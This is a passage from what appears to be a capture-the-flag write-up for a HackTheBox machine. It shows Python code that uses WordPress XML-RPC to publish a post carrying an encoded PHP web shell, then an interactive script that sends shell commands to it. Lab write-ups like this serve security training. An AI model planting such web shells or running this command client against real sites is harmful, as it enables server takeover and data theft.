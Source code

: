 ```python
post.content = """<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCUwQSUwOWVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMEElMDlzeXN0ZW0oJF9SRVFVRVNUJTVCJ2NtZCclNUQpOyUwQT8lM0U=","version":"3.0.0"} /-->"""
post.post_status = "publish"

try:
    post_id = client.call(NewPost(post))
    print(f"Post created successfully with ID: {post_id}")
    print(f"Access the webshell at: http://pressed.htb/?p={post_id}&cmd=<your-command>")
except Exception as e:
    print(f"An error occurred: {e}")


┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python post_webshell_cmd.py    
Post created successfully with ID: 47
Access the webshell at: http://pressed.htb/?p=47&cmd=<your-command>
```

`http://pressed.htb/index.php/2024/12/01/webshell-command/?cmd=id` request on browser:

![](attachments/pressed_11.png)

It's working! But have to trim the result from other subsidiary outputs.
Let's make a code for that.

```python
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat webshell_cmd.py
import requests
import re

def execute_command(base_url):
    while True:
        command = input("Enter the command to execute (or 'exit' to quit): ")
        if command.lower() == 'exit':
            print("Exiting...")
            break

        url = f"{base_url}?cmd={command}"

        try:
            response = requests.get(url)

            match = re.search(r"</table>(.*?)<div class=\"clearfix\">", response.text, re.S)
            if match:
                output = match.group(1).strip()
                print("\nCommand Output:")
                print(output)
            else:
                print("\nCommand output not found.")
        except Exception as e:
            print(f"An error occurred: {e}")

base_url = "http://pressed.htb/index.php/2024/12/01/webshell-command"
execute_command(base_url)
```
